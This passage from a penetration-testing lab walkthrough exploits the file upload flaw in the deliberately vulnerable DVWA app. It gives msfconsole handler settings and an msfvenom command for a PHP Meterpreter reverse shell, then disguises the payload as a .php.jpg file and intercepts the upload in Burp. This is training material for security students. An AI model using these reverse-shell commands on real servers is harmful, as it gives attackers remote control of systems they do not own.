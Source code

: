 4. **Launch Firefox, go to** http://10.10.1.22:8080/dvwa/login.php, log in (admin/password).

5. **Change DVWA security level to low.**

6. **Access File Upload and upload `upload.php`.**

7. **Open a terminal and open msfconsole:**
    ```bash
    msfconsole
    ```

8. **Inside Metasploit:**
    ```bash
    use exploit/multi/handler
    set payload php/meterpreter/reverse_tcp
    set LHOST 10.10.1.13
    set LPORT 4444
    run
    ```

9. **In Firefox, go to** http://10.10.1.22:8080/dvwa/hackable/uploads/upload.php.

10. **Observe successful Meterpreter session in the terminal:**
    ```bash
    sysinfo
    ```

##### Medium Security Level:

1. **Generate Malicious Payload:**
    ```bash
    msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP Address of Host Machine] LPORT=3333 -f raw
    ```
    Copy the generated payload.

2. **Create and edit jpg file:**
    ```bash
    pluma medium.php.jpg
    ```
    Paste the copied payload, save, and close the editor.

3. **Access DVWA Login Page:**
    Open Firefox and visit: `http://10.10.1.22:8080/dvwa/login.php`
    Login with credentials: `admin` / `password`

4. **Adjust DVWA Security Level:**
    Navigate to DVWA Security, set the level from `impossible` to `medium`, and submit.

5. **Exploit File Upload Vulnerability:**
    Navigate to File Upload, click Browse, select `medium.php.jpg`, and click Upload.

6. **Configure Burp Suite Proxy:**
    - Open Firefox Preferences, set manual proxy to `127.0.0.1:8080`.

7. **Launch Burp Suite:**

8. **Intercept File Upload Request:**
    Upload the payload file through DVWA and intercept the request in Burp Suite.
